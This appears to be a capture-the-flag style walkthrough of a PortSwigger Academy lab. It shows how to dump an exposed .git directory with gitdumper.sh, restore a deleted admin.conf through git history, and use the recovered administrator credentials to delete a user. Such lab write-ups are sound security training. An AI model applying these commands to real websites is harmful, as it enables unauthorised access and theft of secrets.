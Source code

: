 
# 21 - Information disclosure in version control history

This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the administrator user then log in and delete Carlos's account.

---------------------------------------------

Reference: https://portswigger.net/web-security/information-disclosure/exploiting



![img](images/21%20-%20Information%20disclosure%20in%20version%20control%20history/1.png)

---------------------------------------------

Generated link: https://0afa00c404fb4d8581880c60002e004e.web-security-academy.net/

The directory .git/ exists and allows directory listing:



![img](images/21%20-%20Information%20disclosure%20in%20version%20control%20history/2.png)

Download the gitdumper script (https://raw.githubusercontent.com/internetwache/GitTools/master/Dumper/gitdumper.sh) and then the .git repo:

```
bash gitdumper.sh https://0afa00c404fb4d8581880c60002e004e.web-security-academy.net/.git/ /tmp/a/
```



![img](images/21%20-%20Information%20disclosure%20in%20version%20control%20history/3.png)

There are sensitive files deleted in the latest commit:

```
cd /tmp/a
git status
```



![img](images/21%20-%20Information%20disclosure%20in%20version%20control%20history/4.png)

Then we revert the previous commit and read the file:

```
git log
git reset --hard d3e84943424222ce64de7da0d797b7dfdef39ea1
cat admin.conf
```



![img](images/21%20-%20Information%20disclosure%20in%20version%20control%20history/5.png)

Then we access with credentials administrator:wy0szsn75q5jqn0w70bu and delete the user:



![img](images/21%20-%20Information%20disclosure%20in%20version%20control%20history/6.png)
